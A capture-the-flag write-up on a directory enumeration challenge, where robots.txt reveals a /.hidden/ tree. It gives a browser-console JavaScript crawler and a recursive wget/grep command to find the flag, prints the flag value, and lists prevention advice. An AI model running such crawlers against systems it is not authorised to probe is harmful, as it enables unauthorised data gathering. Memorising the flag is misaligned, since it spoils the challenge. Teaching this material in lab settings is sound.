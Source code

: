 # Directory Enumeration Vulnerability

## Overview
Sensitive info was hidden in deeply nested folders under `/.hidden/`. No real security—just "security through obscurity."

---

## How It Works

1. **robots.txt** gave clues:
   ```
   Disallow: /whatever
   Disallow: /.hidden
   ```
2. **Exploring `/.hidden/`** revealed:
   - README files and 3 subfolders at each level, repeating for 3 levels.

---

## Exploitation

### **Method 1: JavaScript Directory Crawler**

- Run this in your browser console:

  ```javascript
  async function findFlag() {
    const baseUrl = new URL('./.hidden/', window.location.href).href;
    const queue = [{ url: baseUrl, depth: 0 }];
    const processedUrls = new Set();
    while (queue.length > 0) {
      const { url, depth } = queue.shift();
      if (processedUrls.has(url) || depth > 3) continue;
      processedUrls.add(url);
      const response = await fetch(url);
      const html = await response.text();
      const doc = new DOMParser().parseFromString(html, 'text/html');
      for (const a of Array.from(doc.querySelectorAll('a'))) {
        if (a.textContent.trim() === 'README') {
          const readmePath = new URL(a.getAttribute('href'), url).href;
          const content = await (await fetch(readmePath)).text();
          if (content.includes('flag')) {
            console.log(`🚩 FLAG FOUND: ${content}`);
          }
        }
      }
      for (const a of Array.from(doc.querySelectorAll('a'))) {
        if (a.getAttribute('href').endsWith('/') && a.textContent !== '../') {
          queue.push({ url: new URL(a.getAttribute('href'), url).href, depth: depth + 1 });
        }
      }
    }
  }
  findFlag();
  ```

---

### **Method 2: Shell Script**

- Download everything and search for the flag:
  ```bash
  wget -r -np http://<IP_ADDRESS>/.hidden/
  grep -r "flag" .hidden/
  ```

---

## Flag

`d5eec3afc10840462a44b987e7b9c283`

---

## Security Impact

- **Info Disclosure:** Sensitive files can be found by persistent attackers.
- **Automated Scraping:** Easy for bots to find everything.
- **Obscurity ≠ Security:** No real controls in place.

---

## Prevention

1. **Never rely on directory structure for security**
2. **Require authentication for sensitive data**
3. **Use proper authorization checks**
4. **robots.txt is NOT a security tool**
5. **Disable directory listing on servers**

---